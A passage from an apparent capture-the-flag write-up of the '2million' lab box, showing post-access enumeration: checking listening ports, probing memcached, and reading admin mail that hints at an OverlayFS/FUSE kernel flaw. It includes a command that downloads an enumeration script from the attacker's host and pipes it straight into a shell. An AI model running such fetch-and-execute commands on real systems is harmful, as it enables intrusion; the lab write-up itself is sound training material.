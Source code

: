 There's odd port open 11211, connection doesn't give anything and commands return ERROR...
```bash
admin@2million:~$ ss -tunlp4
Netid                State                 Recv-Q                Send-Q                               Local Address:Port                                  Peer Address:Port                Process
udp                  UNCONN                0                     0                                    127.0.0.53%lo:53                                         0.0.0.0:*
udp                  UNCONN                0                     0                                          0.0.0.0:68                                         0.0.0.0:*
tcp                  LISTEN                0                     80                                       127.0.0.1:3306                                       0.0.0.0:*
tcp                  LISTEN                0                     1024                                     127.0.0.1:11211                                      0.0.0.0:*
tcp                  LISTEN                0                     511                                        0.0.0.0:80                                         0.0.0.0:*
tcp                  LISTEN                0                     4096                                 127.0.0.53%lo:53                                         0.0.0.0:*
tcp                  LISTEN                0                     128                                        0.0.0.0:22                                         0.0.0.0:*
admin@2million:~$ nc 0 11211
Hallo
ERROR
uwu
ERROR
help
ERROR
?
ERROR
!
ERROR
^C
admin@2million:~$ curl 0:11211
curl: (52) Empty reply from server
admin@2million:~$ ps aux | grep 11211
memcache    1187  0.0  0.2 483068 10688 ?        Ssl  Jul26   1:05 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
admin      13859  0.0  0.0   6608  2228 pts/0    S+   12:58   0:00 grep --color=auto 11211
```

Maybe it's not interesting..

```bash
admin@2million:/dev/shm$ curl 10.10.14.37/lp.sh|sh|tee lp.log
...
╔══════════╣ Searching installed mail applications

╔══════════╣ Mails (limit 50)
      271      4 -rw-r--r--   1 admin    admin         540 Jun  2  2023 /var/mail/admin
      271      4 -rw-r--r--   1 admin    admin         540 Jun  2  2023 /var/spool/mail/admin
...
admin@2million:/dev/shm$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

```